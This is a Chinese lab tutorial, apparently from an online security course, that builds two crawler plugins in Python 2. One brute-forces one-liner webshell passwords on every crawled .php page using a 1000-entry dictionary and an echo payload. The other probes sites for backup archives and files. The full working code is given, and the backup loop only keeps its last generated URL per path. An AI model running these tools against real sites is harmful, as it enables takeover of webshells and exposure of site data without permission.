 # 基于爬虫开发 webshell 爆破插件与备份扫描

## 一、实验介绍

### 1.1 实验内容

看了上节课的的教程，还不过瘾吗？我们再接着来写两个基于爬虫的插件

一个是 webshell 爆破插件，一个是基于爬虫的备份扫描。

### 1.2 实验介绍

1. 列表项我们可以通过爬虫系统调用 webshell 爆破对每个页面进行 1000 + 字典的爆破，有时候也会有出其不意的效果。
2. 列表项另外也可以编写一个基于爬虫的备份扫描，这个插件很有必要，一般站长喜欢用文件的命名后门加上`.bak`，或者其他来备份文件，我们创造一个基于爬虫的备份文件扫描程序来查看是否存在这些程序。

### 1.3 实验环境

- Python2.7
- Xfce 终端
- Sublime

### 1.4 适合人群

本课程难度为一般，属于初级级别课程，适合具有 Python 基础的用户，熟悉 python 基础知识加深巩固。

### 1.5 代码获取

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。

```
$ wget http://labfile.oss.aliyuncs.com/courses/761/shiyanlouscan4.zip
$ unzip shiyanlouscan4.zip

```

### 1.6 代码运行

```
$ python w8ay.py

```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489726407309.png/wm)

## 二、实验步骤

### 2.1 webhsell 爆破插件编写

#### 2.1.1 前言

这个功能虽然在实战的时候比较鸡肋，但有时候也有出奇不意的效果。

在这里我们参考这篇文章：[http://www.myhack58.com/Article/60/61/2016/82250.htm](http://www.myhack58.com/Article/60/61/2016/82250.htm)，

这篇文章提供一个方法可以快速爆破 webshell 的 1000 个密码，由这个思路，我们的 webshell 爆破插件将可以很快检测，不需要多少时间。

#### 2.1.2 代码编写

如果看懂了那篇文章的思路，这里就直接给出代码吧。

在`script`目录中新建`webshell_check.py`文件。

```
#!/usr/bin/env python
# __author__= 'w8ay'

#对每个.php结尾的文件进行一句话爆破
import os
import sys

from lib.core.Download import Downloader

filename = os.path.join(sys.path[0],"data","web_shell.dic")
payload = []
f = open(filename)
a = 0
for i in f:
    payload.append(i.strip())
    a+=1
    if(a==999):
        break

class spider:
    def run(self,url,html):
        if(not url.endswith(".php")):
            return False
        print '[Webshell check]:',url
        post_data = {}
        for _payload in payload:
            post_data[_payload] = 'echo "password is %s";' % _payload
            r = Downloader.post(url,post_data)
            if(r):
                print("webshell:%s"%r)
                return True
        return False

```

字典文件随意找个 top1000 弱密码放到 data 目录中，命名为`web_shell.dic`。

可以通过 wget 命令获取。

```
$ wget http://labfile.oss.aliyuncs.com/courses/761/web_shell.dic

```

### 2.2 基于爬虫的备份扫描器

#### 2.2.1 前言

很幸运，已经有前辈大牛们为我们造好了轮子：[https://github.com/secfree/bcrpscan](https://github.com/secfree/bcrpscan)。当然，轮子造的太好了，我们只需要其中的生成路径部分，简单修改了一下，使输入一个网站路径就可以得出备份文件地址。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489332973055.png/wm)

#### 2.2.2 代码编写

在`script`目录下新建`bak_check.py`。

代码：

```
#!/usr/bin/env python
# __author__= 'w8ay'
from lib.core.Download import Downloader
import sys
import urlparse
DIR_PROBE_EXTS = ['.tar.gz', '.zip', '.rar', '.tar.bz2']
FILE_PROBE_EXTS = ['.bak', '.swp', '.1']
download = Downloader()

def get_parent_paths(path):
    paths = []
    if not path or path[0] != '/':
        return paths
    paths.append(path)
    tph = path
    if path[-1] == '/':
        tph = path[:-1]
    while tph:
        tph = tph[:tph.rfind('/')+1]
        paths.append(tph)
        tph = tph[:-1]
    return paths
class spider:
    def run(self,url,html):
        pr = urlparse.urlparse(url)
        paths = get_parent_paths(pr.path)
        web_paths = []
        for p in paths:
            if p == "/":
                for ext in DIR_PROBE_EXTS:
                    u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p, pr.netloc+ext)
            else:
                if p[-1] == '/':
                    for ext in DIR_PROBE_EXTS:
                        u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p[:-1], ext)
                else:
                    for ext in FILE_PROBE_EXTS:
                        u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p, ext)
            web_paths.append(u)
        for path in web_paths:
            print "[web path]:%s"%path
            if(download.get(path) is not None):
                print "[+] bak file has found :%s"%path
        return False

```

### 效果图

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489726374972.png/wm)
